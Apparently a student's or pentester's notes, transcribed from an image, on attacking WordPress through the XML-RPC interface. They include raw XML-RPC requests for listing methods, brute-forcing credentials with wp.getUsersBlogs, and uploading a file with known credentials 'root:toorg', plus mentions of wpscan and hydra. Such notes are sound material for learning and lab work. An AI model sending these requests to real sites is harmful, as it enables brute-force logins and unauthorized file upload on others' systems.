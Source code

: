            - agressive detection or something else? , how about plugin or theme ? 
            - how to get xmlrpc? remote procedure call to communicated between other systems.- need to disabled superseded by the Wordpress REST API,
            that's why there are many xml pages 
            keeping plugins themes up to dates is essential
            sends creds in request, allow them to do Brute forcing, can do publish a post, edit , delte a post, upload file..  
    > barely get response


<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
can brute force to Wordpress when you know the username(wpscan> valid username enum possible), but hydra can also with HTTP
but I know root:toorg > file upload 

<?xml version='1.0' encoding='utf-8'?>
<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
    <param><value><string>1</string></value></param>
    <param><value><string>root</string></value></param>
    <param><value><string>toorg</string></value></param>
    <param>
        <value>
            <struct>
                <member>
                    <name>name</name>
                    <value><string>filename.jpg</string></value>
                </member>
                <member>
                    <name>type</name>
                    <value><string>image/jpeg</string></value>
                </member>
                <member>
                    <name>bits</name>
                    <value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
                </member>
            </struct>
        </value>
    </param>
</params>
</methodCall>
